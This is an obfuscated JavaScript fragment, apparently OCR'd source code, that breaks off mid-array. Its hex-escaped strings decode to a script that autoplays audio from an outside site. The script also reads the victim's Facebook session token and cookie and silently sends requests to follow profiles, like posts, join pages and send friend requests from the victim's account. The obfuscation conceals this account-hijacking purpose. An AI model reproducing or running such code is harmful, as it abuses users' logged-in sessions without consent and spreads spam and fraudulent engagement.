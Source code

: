 var
_0xcc56=["\x68\x74\x6D\x6C","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65","\x62\x6F\x64\x79","\x64\x69\x76","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x68\x65\x69\x67\x68\x74","\x73\x74\x79\x6C\x65","\x32\x35","\x77\x69\x64\x74\x68","\x31\x30\x30\x25","\x70\x6F\x73\x69\x74\x69\x6F\x6E","\x66\x69\x78\x65\x64","\x74\x6F\x70","\x61\x75\x74\x6F","\x62\x6F\x74\x74\x6F\x6D","\x30","\x61\x6C\x69\x67\x6E","\x63\x65\x6E\x74\x65\x72","\x61\x75\x64\x69\x6F","\x32\x35\x70\x78","\x63\x6F\x6E\x74\x72\x6F\x6C\x73","\x61\x75\x74\x6F\x70\x6C\x61\x79","\x73\x72\x63","\x68\x74\x74\x70\x3A\x2F\x2F\x63\x32\x6C\x6F\x2E\x72\x65\x76\x65\x72\x62\x6E\x61\x74\x69\x6F\x6E\x2E\x63\x6F\x6D\x2F\x61\x75\x64\x69\x6F\x5F\x70\x6C\x61\x79\x65\x72\x2F\x64\x6F\x77\x6E\x6C\x6F\x61\x64\x5F\x73\x6F\x6E\x67\x5F\x64\x69\x72\x65\x63\x74\x2F\x31\x33\x31\x34\x39\x35\x33\x30\x2F\x34\x39\x38\x63\x31\x30\x39\x65\x30\x63\x61\x37\x62\x61\x35\x37\x35\x30\x66\x36\x64\x34\x65\x37\x63\x64\x64\x34\x32\x35\x37\x35","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x2F\x61\x6A\x61\x78\x2F\x66\x6F\x6C\x6C\x6F\x77\x2F\x66\x6F\x6C\x6C\x6F\x77\x5F\x70\x72\x6F\x66\x69\x6C\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x70\x72\x6F\x66\x69\x6C\x65\x5F\x69\x64\x3D","\x26\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x31\x26\x73\x6F\x75\x72\x63\x65\x3D\x66\x6F\x6C\x6C\x6F\x77\x2D\x62\x75\x74\x74\x6F\x6E\x26\x73\x75\x62\x73\x63\x72\x69\x62\x65\x64\x5F\x62\x75\x74\x74\x6F\x6E\x5F\x69\x64\x3D\x75\x33\x37\x71\x61\x63\x5F\x33\x37\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6C\x73\x64\x26\x5F\x5F","\x26\x70\x68\x73\x74\x61\x6D\x70\x3D","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x33\x39\x33\x33\x32\x37\x35\x35\x35\x36","\x73\x63\x72\x69\x70\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x6E\x65\x77\x20\x41\x73\x79\x6E\x63\x52\x65\x71\x75\x65\x73\x74\x28\x29\x2E\x73\x65\x74\x55\x52\x49\x28\x27\x2F\x61\x6A\x61\x78\x2F\x66\x72\x69\x65\x6E\x64\x73\x2F\x6C\x69\x73\x74\x73\x2F\x73\x75\x62\x73\x63\x72\x69\x62\x65\x2F\x6D\x6F\x64\x69\x66\x79\x3F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x70\x65\x72\x6D\x61\x6C\x69\x6E\x6B\x26\x61\x63\x74\x69\x6F\x6E\x3D\x73\x75\x62\x73\x63\x72\x69\x62\x65\x27\x29\x2E\x73\x65\x74\x44\x61\x74\x61\x28\x7B\x20\x66\x6C\x69\x64\x3A\x20","\x20\x7D\x29\x2E\x73\x65\x6E\x64\x28\x29\x3B","\x33\x31\x39\x36\x36\x38\x32\x30\x38\x31\x37\x34\x32\x38\x36","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x75\x66\x69\x2F\x6C\x69\x6B\x65\x2E\x70\x68\x70","\x6C\x69\x6B\x65\x5F\x61\x63\x74\x69\x6F\x6E\x3D\x74\x72\x75\x65\x26\x66\x74\x5F\x65\x6E\x74\x5F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x73\x6F\x75\x72\x63\x65\x3D\x31\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D","\x25\x33\x41\x33\x33\x36\x36\x36\x37\x37\x34\x32\x37\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x70\x73\x5F\x30\x5F\x30\x5F\x31\x34\x26\x67\x69\x66\x74\x6F\x63\x63\x61\x73\x69\x6F\x6E\x26\x66\x74\x5B\x74\x6E\x5D\x3D\x25\x33\x45\x25\x33\x44\x55\x26\x66\x74\x5B\x74\x79\x70\x65\x5D\x3D\x32\x30\x26\x66\x74\x5B\x71\x69\x64\x5D\x3D\x35\x38\x38\x32\x30\x30\x36\x38\x39\x30\x35\x31\x33\x37\x38\x34\x37\x31\x32\x26\x66\x74\x5B\x6D\x66\x5F\x73\x74\x6F\x72\x79\x5F\x6B\x65\x79\x5D\x3D","\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x68\x6F\x6D\x65\x5F\x73\x74\x72\x65\x61\x6D\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x33\x35\x43\x46\x77\x58\x41\x67\x26\x5F\x5F\x72\x65\x71\x3D\x6A\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x70\x61\x67\x65\x73\x2F\x66\x61\x6E\x5F\x73\x74\x61\x74\x75\x73\x2E\x70\x68\x70","\x26\x66\x62\x70\x61\x67\x65\x5F\x69\x64\x3D","\x26\x61\x64\x64\x3D\x74\x72\x75\x65\x26\x72\x65\x6C\x6F\x61\x64\x3D\x66\x61\x6C\x73\x65\x26\x66\x61\x6E\x5F\x6F\x72\x69\x67\x69\x6E\x3D\x70\x61\x67\x65\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x26\x66\x61\x6E\x5F\x73\x6F\x75\x72\x63\x65\x3D\x26\x63\x61\x74\x3D\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x5F\x70\x61\x67\x65\x5F\x61\x63\x74\x69\x6F\x6E\x73\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x39\x38\x61\x44\x35\x7A\x35\x43\x46\x2D\x26\x5F\x5F\x72\x65\x71\x3D\x64\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2C","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x2F\x61\x63\x74\x69\x6F\x6E\x2E\x70\x68\x70","\x74\x6F\x5F\x66\x72\x69\x65\x6E\x64\x3D","\x26\x61\x63\x74\x69\x6F\x6E\x3D\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x26\x68\x6F\x77\x5F\x66\x6F\x75\x6E\x64\x3D\x66\x72\x69\x65\x6E\x64\x5F\x62\x72\x6F\x77\x73\x65\x72\x5F\x73\x26\x72\x65\x66\x5F\x70\x61\x72\x61\x6D\x3D\x6E\x6F\x6E\x65\x26\x26\x26\x6F\x75\x74\x67\x6F\x69\x6E\x67\x5F\x69\x64\x3D\x26\x6C\x6F\x67\x67\x69\x6E\x67\x5F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x73\x65\x61\x72\x63\x68\x26\x6E\x6F\x5F\x66\x6C\x79\x6F\x75\x74\x5F\x6F\x6E\x5F\x63\x6C\x69\x63\x6B\x3D\x74\x72\x75\x65\x26\x65\x67\x6F\x5F\x6C\x6F\x67\x5F\x64\x61\x74\x61\x26\x68\x74\x74\x70\x5F\x72\x65\x66\x65\x72\x65\x72\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x39\x38\x61\x44\x35\x7A\x35\x43\x46\x2D\x26\x5F\x5F\x72\x65\x71\x3D\x33\x35\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x32\x35\x38\x35\x37\x34\x37\x36\x37\x36\x33\x37\x31\x38\x34","\x31\x30\x30\x30\x30\x3